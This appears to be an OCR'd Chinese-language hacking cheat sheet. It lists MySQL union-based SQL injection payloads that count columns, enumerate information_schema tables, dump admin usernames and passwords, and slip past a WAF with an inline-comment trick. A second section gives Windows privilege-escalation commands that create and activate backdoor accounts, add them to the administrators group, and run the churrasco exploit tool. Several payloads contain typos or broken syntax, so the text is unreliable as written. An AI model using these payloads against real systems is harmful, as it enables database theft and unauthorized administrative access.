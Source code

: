 order by猜字段数量

union select 1，2，3，4，5
info_show.php?info_id=142 and 1=1 union select 联合查询
select * from hack where id=1 and 1=2 union 1，2，3；只显示联合查询内容
select * from hack where id=1 and 1=2 union 1，version()，3；
select * from hack where id=1 and 1=2 union 1，version()，user()；
union select id=1 and 1=2 union 1，version()，user()；
union select  database()，version()，user()；	

---

###mysql 基本操作函数
and 1=2 union select 1，table_name，3，4，5 from information_schema.tables where table_schema="goacn"

select column_name from information_schema.column where table_name="hack"

govcn数据库中包含d的数据表

union select 1，group_concat(talbe_name),3,4,5 form information_schema.tables where table_schema="govcn" 显示字段中所有内容

and 1=2 union select 1,group_concat(column_name),3,4,5 from information_schema.column where
 table_name="admin"
 
and 1=2 union select 1,unhex(hex(username)),unhex(hex(password)),4,5 from admin	

unhex(hex())函数编码转换，解决网站编码不一致的问题
			
大小写waf绕过

/*!and* 1=2


---

###提权
net user administrator

net user guest /active:yes

net user guest /active:no

net user hack 123 /add

net user hack 456

net user hack /del

net user hack

net user hack /add

net localgroup administrato
rs
net localgroup administrators test /add

net localgroup administrator test /del

whoami

churrasco "net user hack 123 /add"

